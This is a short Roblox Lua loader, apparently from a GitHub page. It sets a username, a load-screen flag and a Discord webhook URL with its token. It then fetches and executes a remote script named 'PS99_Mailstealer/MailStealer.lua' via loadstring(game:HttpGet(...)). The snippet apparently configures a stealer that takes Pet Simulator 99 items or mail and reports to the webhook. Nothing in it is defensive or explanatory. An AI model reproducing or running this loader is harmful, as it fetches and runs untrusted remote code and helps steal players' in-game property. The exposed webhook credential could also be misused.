 Username = "miyakeou"
LoadScreen = true
Webhook = "https://discord.com/api/webhooks/1296339811522580510/mg-uamjPB57JBeceQPu8ZZK29DeoUiFPQLjPMesW1Sonkdwi5O0rctr-Du5-67MHWtI5"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

